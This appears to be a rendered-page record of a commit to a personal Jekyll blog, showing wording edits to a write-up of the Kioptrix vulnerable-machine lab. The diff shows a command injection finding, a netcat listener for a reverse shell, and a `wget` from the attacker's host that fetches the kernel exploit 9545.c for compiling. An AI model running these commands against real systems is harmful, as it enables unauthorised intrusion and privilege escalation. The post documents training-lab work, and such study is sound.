

Before and after one commit to holstrater/holstrater.github.io, a Jekyll site: the page built from _posts/2020-04-28-kioptrix11.md, in a window 1280 px wide and 1400 px high, scrolled down 4081 px. Shown: the whole window at 92% size, without its empty margins (0-998 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
second post attempt

````diff
--- a/_posts/2020-04-28-kioptrix11.md
+++ b/_posts/2020-04-28-kioptrix11.md
@@ -91,7 +91,7 @@ I decided to check how well this application sanitizes user input in the field w
 
 ![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_ls.png)
 
-This means the application is vulnerable to command injection and I can execute commands directly on the target machine through this application. I then tried using this point of entry to give myself a reverse shell on the target machine. This could be done as follows:
+This means the application is vulnerable to command injection and I can execute commands directly on the target machine through this application. I then tried using this point of entry to give myself a reverse shell on the target machine:
 
 ```bash
 kali@kali:~$ nc -nlvp 7777
@@ -115,21 +115,21 @@ apache
 sh-3.00$
 ```
 
-I tried using `uname -a` on the target machine for version info, but I couldn't find any exploits that worked with this method. I also checked the specific CentOS version with `ls /etc/*release*` and `cat /etc/redhat-release`, but both exploits found for this particular version don't seem to work and the source code doesn't help much in figuring out why.
+I tried using `uname -a` on the target machine for version info, but I couldn't initiatelly find any exploits that worked with the information this gave me. I also checked the specific CentOS version with `ls /etc/*release*` and `cat /etc/redhat-release`, but both exploits found for this particular version didn't seem to work and the source code doesn't help much in figuring out why.
 
 After seemingly running out of exploits to run, I decided to give the original list of kernel-based exploits a more thorough try rather than picking a few and moving on afterwards. Fortunately, this paid off with `9545.c`:
 
 ```sh
-wget http://192.168.56.102:7777/9545.c
+sh-3.00$ wget http://192.168.56.102:7777/9545.c
 --14:21:24--  http://192.168.56.102:7777/9545.c
-           => `9545.c'
+           => '9545.c'
 Connecting to 192.168.56.102:7777... connected.
 HTTP request sent, awaiting response... 200 OK
 Length: 9,783 (9.6K) [text/plain]
 
     0K .........                                             100%  777.48 MB/s
 
-14:21:24 (777.48 MB/s) - `9545.c' saved [9783/9783]
+14:21:24 (777.48 MB/s) - '9545.c' saved [9783/9783]
 
 sh-3.00$ gcc -Wall 9545.c
 9545.c:376:28: warning: no newline at end of file
````
Also changed, not shown: other parts of _posts/2020-04-28-kioptrix11.md (+1 -1 lines).
